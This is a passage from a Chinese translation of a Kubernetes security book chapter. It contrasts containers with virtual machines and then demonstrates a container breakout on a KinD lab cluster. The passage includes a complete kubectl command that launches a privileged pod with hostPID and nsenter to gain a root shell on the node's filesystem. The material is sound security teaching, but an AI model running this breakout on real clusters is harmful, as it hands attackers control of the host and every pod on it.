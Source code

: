 ![图 10.1 - 从系统控制台的 Pod 进程](https://github.com/OpenDocCN/freelearn-devops-zh/raw/master/docs/k8s-dkr/img/Fig_10.1_B15514.jpg)

图 10.1 - 从系统控制台的 Pod 进程

相比之下，虚拟机就像其名称所示，是一个完整的虚拟系统。它模拟自己的硬件，有独立的内核等。虚拟机监视器为虚拟机提供了从硅层到上层的隔离，而与此相比，在节点上的每个容器之间几乎没有隔离。

注意

有一些容器技术可以在自己的虚拟机上运行容器。但容器仍然只是一个进程。

当容器没有运行时，它们只是一个"tarball of tarballs"，其中文件系统的每一层都存储在一个文件中。镜像仍然存储在主机系统上，或者之前容器曾经运行或被拉取的多个主机系统上。

注意

"tarball"是由**tar** Unix 命令创建的文件。它也可以被压缩。

另一方面，虚拟机有自己的虚拟磁盘，存储整个操作系统。虽然有一些非常轻量级的虚拟机技术，但虚拟机和容器之间的大小差异通常是数量级的。

虽然有些人将容器称为轻量级虚拟机，但事实并非如此。它们的隔离方式不同，并且需要更多关注它们在节点上的运行细节。

从这一部分，你可能会认为我们在试图说容器不安全。事实恰恰相反。保护 Kubernetes 集群和其中运行的容器需要注意细节，并且需要理解容器与虚拟机的不同之处。由于很多人都了解虚拟机，因此很容易尝试将其与容器进行比较，但这样做会让你处于不利地位，因为它们是非常不同的技术。

一旦您了解了默认配置的限制和由此带来的潜在危险，您就可以纠正这些“问题”。

## 容器越狱

容器越狱是指您的容器进程获得对底层节点的访问权限。一旦在节点上，攻击者现在可以访问所有其他的 pod 和环境中节点的任何功能。越狱也可能是将本地文件系统挂载到您的容器中。来自[`securekubernetes.com`](https://securekubernetes.com)的一个例子，最初由 VMware 的 Duffie Cooley 指出，使用一个容器来挂载本地文件系统。在 KinD 集群上运行这个命令会打开对节点文件系统的读写权限：

kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'

如果你看不到命令提示符，请尝试按 Enter 键。

上面代码中的**run**命令启动了一个容器，并添加了一个关键选项**hostPID: true**，允许容器共享主机的进程命名空间。您可能会看到一些其他选项，比如**–mount**和一个将**privileged**设置为**true**的安全上下文设置。所有这些选项的组合将允许我们写入主机的文件系统。

现在你在容器中，执行**ls**命令查看文件系统。注意提示符是**root@r00t:/#**，确认你在容器中而不是在主机上：

root@r00t:/# ls

**bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var**

为了证明我们已经将主机的文件系统映射到我们的容器中，创建一个名为**this is from a container**的文件，然后退出容器：

root@r00t:/# touch this_is_from_a_container

root@r00t:/# 退出

最后，让我们查看主机的文件系统，看看容器是否创建了文件。由于我们正在运行 KinD，只有一个工作节点，我们需要使用 Docker **exec**进入工作节点。如果您正在使用本书中的 KinD 集群，工作节点被称为**cluster01-worker**：

docker exec -ti cluster01-worker ls /

**bin  boot  build  dev  etc  home  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  this_is_from_a_container  tmp  usr  var**
